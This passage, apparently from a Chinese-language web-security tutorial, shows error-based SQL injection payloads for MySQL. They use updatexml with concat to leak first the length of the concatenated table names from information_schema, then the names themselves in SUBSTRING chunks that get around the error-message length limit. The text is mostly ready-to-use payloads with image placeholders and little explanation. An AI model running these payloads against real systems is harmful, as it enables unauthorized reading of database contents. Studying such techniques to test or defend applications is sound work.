 
```mysql
# 获取输出所有表名的字符串长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(group_concat(table_name)))FROM(information_schema.tables)WHERE(table_schema='数据库名')),0x7e),1)
```

![image-20250222160935609](static/image/image-20250222160935609.png)

#### 获取所有表名

```mysql
# 获取所有表名，因为有长度限制。所以通过substing截取 1,15 代表着截取1至15的字符内容
updatexml(1,concat(0x7e,(SELECT(SUBSTRING(group_concat(table_name),字符串头,字符串尾))FROM(information_schema.tables)WHERE(table_schema='数据库名')),0x7e),1)
```

![image-20250222161616691](static/image/image-20250222161616691.png)
